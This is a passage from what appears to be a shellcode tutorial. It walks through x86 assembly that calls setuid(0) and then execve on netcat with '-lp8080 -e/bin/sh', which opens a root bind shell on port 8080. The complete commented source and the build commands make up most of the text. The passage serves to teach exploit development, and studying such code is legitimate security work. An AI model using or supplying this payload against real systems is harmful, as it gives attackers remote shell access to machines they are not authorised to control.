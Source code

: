 So `ebx` already points to the `filename` `/bin//nc`,
`ecx` points to the array with the arguments and `edx` is null, 
ready to be used as `envp[]`. The only thing left is to load the `execve` system call number
in `eax` and execute the syscall.

```nasm
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```

And the whole assemby code:
```nasm
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```
# Testing time
Save the file and compile it. I saved mine as `shellcode-c137.asm`
```bash
root@kali:~# nasm -f elf  shellcode-c137.asm
root@kali:~# ld -m elf_i386 -s -o shellcode-c137 shellcode-c137.o
```
This is a x86 assembly and to compile it on 64bit machine you should use the `-m elf_i386` switch.
